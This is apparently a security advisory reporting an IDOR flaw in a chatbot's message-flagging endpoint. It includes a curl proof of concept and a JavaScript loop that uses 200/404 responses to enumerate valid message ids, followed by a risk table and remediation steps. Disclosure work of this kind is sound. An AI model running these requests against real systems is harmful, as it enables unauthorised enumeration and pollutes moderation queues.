




# Description

IDOR (CWE-639) on `POST /chatbot/api/flag/`. The endpoint lets any authenticated user "flag" (report for moderation) any chatbot message by `message_id`, without verifying that the target message belongs to the requester. A low-privilege account can flag arbitrary messages — including seed and admin-generated ones.

The `200` (exists) vs `404` (not found) response difference also creates an **existence oracle**, allowing unauthorized enumeration of valid message IDs.

# Exploitation

| Step | Action | Result |
|------|--------|--------|
| 1 | Sign up and authenticate as a normal user. | Valid session + CSRF token. |
| 2 | Send one chatbot message to get a baseline `message_id`. | e.g. own id `20`. |
| 3 | POST `/chatbot/api/flag/` with `message_id` values you do **not** own. | `200 success` on others' messages. |

# PoC

**Minimal reproduction** (cookies = a current authenticated low-priv session):

```bash
curl -X POST 'http://<TARGET>/chatbot/api/flag/' \
  -H 'Content-Type: application/json' \
  -H 'X-CSRFToken: <csrf_token_from_cookie>' \
  -b 'sessionid=<your_session>; csrftoken=<csrf_token>' \
  -d '{"message_id": 11, "reason": "other", "description": ""}'
# HTTP 200 {"status":"success","message":"Response has been flagged for review. Thank you for your feedback."}
```

Message id `11` belongs to another user, yet the flag succeeds.


HTTP 429 responses were also observed during testing. The source of these responses has not been independently verified.

**Bulk enumeration via the 200/404 oracle** maps the live message-id set:

```javascript
for (const id of [...Array(30).keys()].map(i=>i+1)) {
  const r = await fetch('/chatbot/api/flag/', {method:'POST',
    headers:{'Content-Type':'application/json','X-CSRFToken':csrf},
    body:JSON.stringify({message_id:id, reason:'other', description:''})});
  console.log(id, r.status);
}
// 200 → exists (flaggable), 404 → non-existent
```







# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Limited disclosure of message existence; no disclosure of conversation contents has been demonstrated. |
| Integrity | Potential pollution of the moderation queue and degradation of moderation quality. |
| Availability | Increased moderation workload; no direct service disruption demonstrated. |

The potential stored XSS impact mentioned in the original report has not been demonstrated and requires a separate review of administrative rendering.

Overall severity: **Medium**.

# Remediation

1. **Server-side ownership check** — only allow flagging messages where `message.user == request.user`, else `404`.
2. If "any user may flag any message" is intentional, **return a constant response** regardless of id validity to suppress the oracle, and dedupe flags per user.
3. **HTML-escape `description`** in every administrative rendering path.
4. **Audit all object-level endpoints** for missing ownership checks.
5. **Add regression tests** covering message ownership, reporting permissions, duplicate flags, and safe rendering of user-provided descriptions.

# Author
CPE LYON
